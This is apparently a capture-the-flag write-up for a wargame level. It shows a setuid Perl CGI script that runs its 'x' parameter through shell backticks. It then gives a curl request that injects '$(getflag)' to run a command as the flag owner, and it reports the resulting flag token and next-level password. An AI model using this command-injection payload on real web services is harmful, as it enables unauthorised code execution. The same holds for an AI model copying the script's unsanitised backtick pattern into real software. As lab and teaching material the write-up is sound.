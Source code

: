 ## Check files inside home folder of user level04
ls -la

-> -rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl

## This file can be execute as flag04 user, in addition is a Perl file with the folowing code
cat level04.pl

```perl
   #!/usr/bin/perl
   # localhost:4747
   use CGI qw{param};
   print "Content-type: text/html\n\n";
   sub x {
     $y = $_[0];
     print `echo $y 2>&1`;
   }
   x(param("x"));
```

## To exploit this file we need use this line
print `echo $y 2>&1`;

## If we use curl with a paramater we can execute any comand and show the results
curl 'localhost:4747/?x=$(getflag)'

->Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

## Log in to user level05
su level05 (password: ne2searoevaevoem4ov4ar8ap)
